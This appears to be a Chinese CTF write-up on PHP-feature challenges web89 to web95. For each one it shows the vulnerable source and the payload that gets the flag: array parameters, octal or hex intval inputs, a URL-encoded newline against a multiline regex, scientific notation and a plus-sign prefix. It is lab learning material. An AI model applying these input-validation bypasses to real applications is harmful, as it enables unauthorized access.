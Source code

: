# php的特性

---

```toc
```

## web89

>  preg_match当检测的变量是数组的时候会报错并返回0。而intval函数当传入的变量也是数组的时候，会返回1

```php
include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```

*构造payload：*`?num[]=1`

得到flag.



## 😍web90

> 注意是“===”的绕过
>
> intval($var,$base)，其中var必填，base可选，这里base=0,则表示根据var开始的数字决定使用的进制： 0x或0X开头使用十六进制，0开头使用八进制，否则使用十进制。 这里===表示类型和数值必须相等，我们可以使用4476的八进制或十六进制绕过检测。 paylod：num=010574或num=0x117c

### intval()函数

![image-20240531165527229](https://gitee.com/bx33661/image/raw/master/path/image-20240531165527229.png)

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```



### 方法

- `4476a`
- `4476.0`
- `?num=0x117c`
- `?num=010574`

---

## web91

```php
show_source(__FILE__);
include('flag.php');
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
}
```

> 注意两个正则表达式的区别:/^php$/im
> ^ 表示的是开头
> $ 表示的是结尾
> i 表示的是忽略大小写
> m表示的是多行匹配
>
> 所以换一行填写php即可得到flag

*构造payload：* `/?cmd=1%0Aphp`------`%0A`是url的换行符

得到flag

## web92

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

==与上面那个类似，不过使用的是“弱比较”，我们可以使用科学计数法==

*payload：* `4476e1`



## web93

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

根据正则表达式我们可以判断不能继续使用科学计数法了，采用进制转化

010574，4476.1



## web94

> 综合分析：4476.0

## web95

> ?num=+010574 （空格代替+，也可以）
> ?num=%2b010574